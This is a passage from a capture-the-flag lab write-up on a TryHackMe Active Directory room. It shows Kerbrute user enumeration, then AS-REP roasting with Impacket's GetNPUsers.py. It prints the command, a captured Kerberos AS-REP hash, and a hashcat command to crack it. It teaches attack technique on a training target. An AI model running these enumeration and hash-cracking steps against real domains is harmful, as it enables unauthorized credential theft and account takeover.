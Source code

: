 > NOTE: I had trouble using Kerbrute on THM's AttackBox; I was getting some errors, and after searching around, I found that the best way to solve the issue is to assign the target's IP to spookysec.local in /etc/hosts in order for the Kerbrute command to work with that domain.

After the enumeration, the result is that there are 16 valid usernames. To answer the second and third questions of this section, we need to provide these two notable accounts:

- svc-admin *(@spookysec.local)*
- backup *(@spookysec.local)*

## Abusing Kerberos
---

As instructed in this section, we are going to abuse a feature within Kerberos using an attack method known as ASREPRoasting. This occurs when a user account has the privilege 'Does not require Pre-Authentication' already set. This means that it is not required for that user account to provide valid identification before requesting a Kerberos Ticket.

There's a tool called GetNPUsers.py (check [Impacket](https://github.com/fortra/impacket)) that will allow us to query accounts (suitable for ASREPRoasting) from the Key Distribution Center. The only thing needed to query accounts is a valid set of usernames—in this case, we have two valid usernames we obtained through Kerbrute in the previous section.

Once the tool is downloaded, we can use the `GetNPUsers.py` tool to proceed and answer the questions from this section.

The answer to the first question in this section is pretty obvious—you can query a ticket from svc-admin without a password.

To answer the second question, we'll need to use the tool with the `svc-admin` user:

```cmd
┌──(ognard㉿kali)-[~/Downloads]
└─$ python3 GetNPUsers.py -dc-host spookysec.local spookysec.local/svc-admin -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b06128e4ae69b2e346ef49d9e65ccdd9$42b9351e746f1207f1b80ebcb1dd3d85e4e9b245625cd563319901103cb1480c510a397d248d5ea5b4b05ee7813709034c6653604f0c18463924cec2c2ea24b3a974ae1d9978bb793b8d7b4e87ee12caf359fe92dc4e7c327e40282b98472347c9bb16b68d2715276c00ce96b3240fc8090e614814134c3afe0183c5b37d8c2081adb256d6723b56e10201f00344b4badd7704c796d22567d524eaadaa24e63109d3ef4747fedada0f45336f35238e486dc92c64cf807f3d35a0485dfc81b3bf62556ddd1aa6316d8a5a95dfcea244b60beec607a35ac8a2b8c43706911eec10219c8fe72013445fb8144d2b5ebd9ca0603e
```

This will show a hash in the output. Checking the hash pattern on the [Hashcat Examples Wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes), we can see that the Hash-Name is `Kerberos 5, etype 23, AS-REP` and the Hash-Mode is `18200`. With this, we have the answers to the second and third questions in this section.

And now, for the final one, based on the discovered Hash-Mode, we'll need to crack the hash with hashcat and the password list we have from before:

```cmd
┌──(ognard㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 18200 hash.txt passwordlist.txt --force
```
